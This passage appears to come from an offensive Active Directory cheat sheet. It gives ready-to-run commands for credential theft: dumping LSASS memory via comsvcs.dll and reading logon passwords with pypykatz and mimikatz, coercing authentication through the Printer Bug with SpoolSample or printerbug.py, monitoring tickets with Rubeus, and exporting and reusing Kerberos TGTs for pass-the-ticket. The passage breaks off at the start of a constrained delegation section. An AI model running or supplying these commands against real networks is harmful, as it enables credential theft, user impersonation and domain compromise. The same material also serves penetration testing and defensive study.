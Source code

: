 ```powershell
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id C:\Windows\Tasks\lsass.dmp full

# Use pypykatz
pypykatz lsa minidump lsass.dmp

# Use mimikatz's minidump
mimikatz# sekurlsa::minidump <Path_to_file>\lsass.dmp
mimikatz# sekurlsa::logonpasswords
```

# Delegations
## Unconstrained Delegation
### Printer Bug
Using spooler service to authenticate between domain computers(that runs spooler svc). Attackers can monitor incoming tickets with `Rubeus`.

1. Verify that remote computer has spooler service running
```powershell
ls \\dc01.contoso.local\pipe\spoolss
```

2. Download spoolsample [here](https://github.com/leechristensen/SpoolSample) and run the following command to authenticate and capture ticket.
```powershell
# run this on domain joined computers
spoolsample.exe dc01.contoso.local ms01.contoso.local
# or can use this command for linux workstation
python3 printerbug.py contoso.local/donald:'Changeme123'@10.200.60.202 10.50.57.128

# monitor ticket
Rubeus.exe monitor /interval:5
```

### Extract TGT
Since unconstrained computers will save users tgt (logged in users). We will extract this keys and able to impersonate them.
```powershell
mimikatz# sekurlsa::tickets /export
Rubeus.exe ptt /ticket:ticket.kirbi
```

>[!References]
>- https://www.thehacker.recipes/a-d/movement/kerberos/delegations/unconstrained
>- https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/

## Constrained Delegation
### s4u delegation
This attack is possible if `msds-AllowedToDelegateTo` is set.
